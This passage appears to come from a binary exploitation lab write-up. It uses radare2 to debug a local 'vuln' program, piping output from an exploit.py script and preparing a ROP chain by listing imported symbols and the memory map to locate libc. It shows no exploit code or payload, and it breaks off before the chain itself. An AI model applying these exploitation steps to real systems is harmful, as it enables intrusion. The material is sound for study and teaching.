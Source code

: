 python3 exploit.py > payload
r2 -e dbg.profile=./script.rr2 -dA vuln
```
At this point we would start crafting our exploit by making use of a ROP chain. At first we need to know the libraries available, loaded in the program. And to specifically search for the LIBC: 
```
[0x7ffff7dd4090]> iiq
free
_ITM_deregisterTMCloneTable
r_run_config_env
puts
dup2
strchr
r_run_parseline
close
__libc_start_main
strcmp
signal
r_run_new
__gmon_start__
r_run_free
r_run_start
r_run_help
r_str_newf
__printf_chk
r_sys_cmd
fwrite
_ITM_registerTMCloneTable
sleep
__cxa_finalize
stderr
_ITM_deregisterTMCloneTable
__libc_start_main
__gmon_start__
_ITM_registerTMCloneTable
__cxa_finalize
stderr
```
dm will show the libraries being mapped in memory. We can see libc in there:
```
[0x7fffffffdfe8]> dm
0x0000555555554000 # 0x0000555555555000 - usr     4K s -r-x /home/lab/vuln /home/lab/vuln ; map.usr_bin_rarun2._r_x
0x0000555555754000 # 0x0000555555755000 - usr     4K s -r-- /home/lab/vuln /home/lab/vuln
0x0000555555755000 # 0x0000555555756000 - usr     4K s -rw- /home/lab/vuln /home/lab/vuln ; map.usr_bin_rarun2._rw
0x0000555555756000 # 0x0000555555777000 - usr   132K s -rw- [heap] [heap] ; section_end.GNU_RELRO
0x00007ffff79e2000 # 0x00007ffff7bc9000 - usr   1.9M s -r-x /lib/x86_64-linux-gnu/libc-2.27.so /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bc9000 # 0x00007ffff7dc9000 - usr     2M s ---- /lib/x86_64-linux-gnu/libc-2.27.so /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dc9000 # 0x00007ffff7dcd000 - usr    16K s -r-- /lib/x86_64-linux-gnu/libc-2.27.so /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcd000 # 0x00007ffff7dcf000 - usr     8K s -rw- /lib/x86_64-linux-gnu/libc-2.27.so /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 # 0x00007ffff7dd3000 - usr    16K s -rw- unk0 unk0
0x00007ffff7dd3000 # 0x00007ffff7dfc000 - usr   164K s -r-x /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._r_x
0x00007ffff7fe2000 # 0x00007ffff7fe4000 - usr     8K s -rw- unk1 unk1
0x00007ffff7ff8000 # 0x00007ffff7ffb000 - usr    12K s -r-- [vvar] [vvar] ; map.vvar_._r
0x00007ffff7ffb000 # 0x00007ffff7ffc000 - usr     4K s -r-x [vdso] [vdso] ; map.vdso_._r_x
0x00007ffff7ffc000 # 0x00007ffff7ffd000 - usr     4K s -r-- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._rw